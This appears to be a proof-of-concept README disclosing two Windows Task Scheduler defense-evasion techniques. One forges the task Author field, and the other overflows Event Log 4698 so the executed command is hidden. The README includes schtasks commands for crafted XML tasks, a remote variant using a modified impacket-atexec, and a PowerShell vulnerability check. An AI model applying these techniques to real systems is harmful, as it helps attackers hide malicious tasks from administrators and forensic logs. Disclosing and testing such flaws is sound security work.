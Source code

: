# Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
Two new Defense Evasion techniques have been discovered.<br><br>
The first vulnerability is affecting the Task metadatas and the Event Log 4698 "Task Created", allowing an attacker to create a task based on an XML file and poison the "Author" entry to arbitrary data.<br>

The second vulnerability allows to leverage an unlimited allocated buffer in "Author" task metadata, which is handled further by the Windows Event Log, overwriting the whole log description.
The exploit can also be triggered remotely by patching the author entry in the XML file sent over RPC in [impacket-atexec](https://github.com/fortra/impacket/blob/master/examples/atexec.py).
<br>
<br>

#### Requirements
<br>

- Batch Logon rights on the Task Principal for the task to run (Otherwise the metadata / event log is poisoned / overwritten but the task won't run)
- The password of the task principal, if the user creating the task is not admin or doesn't have SeImpersonate privileges
- The Security Policy "Audit Other Object Access Events" is enabled
<br>

#### Command
<br>

> Remote
```bash
# Change the original impacket-atexec script with the uploaded script, and run it with the original arguments
# In order to poison the log with a fake Author entry, change the buffer in the XML file to the desired data. Example: Microsoft Corporation.
impacket [[domain/]username[:password]@]<targetName or address> command
```
<br>

> Task Poisoning (Metadata / Event Log)
```bash
# Run the script to check if the INJECTED-DATA author name has been set in the task description
schtasks /create /tn poc /xml poc-poisoning.xml /ru <username> /rp <password> /f

# Check if the data has been injected by querying the task. If the author name is INJECTED-DATA the target is vulnerable
schtasks /query /tn poc /xml | findstr /i author
```
<br>

> Task Event Log Overflow
```bash
# Run the script to check if the +3500 bytes payload has been injected in the 4698 Event Log
# If the Log Type is not activated on your machine and you still want to test it, activate it in:
# Local Security Policy -> Advanced Audit Policy Configuration -> System Audit Policies - Local Group Policy Object -> Object Access -> Audit Other Object Access Events -> Select Success
schtasks /create /tn poc /xml poc-overflow.xml /ru <username> /rp <password> /f
```
<br>

> Log Check
```bash
# Check the task log by running the following powershell command. If the <RegistrationInfo> tag is containing a 3500 bytes buffer but not the command executed and the arguments, the target is vulnerable.
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} | Where-Object { $_.Message -like '*poc*' } |  Select-Object -First 1 | Format-List TimeCreated, Message
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.

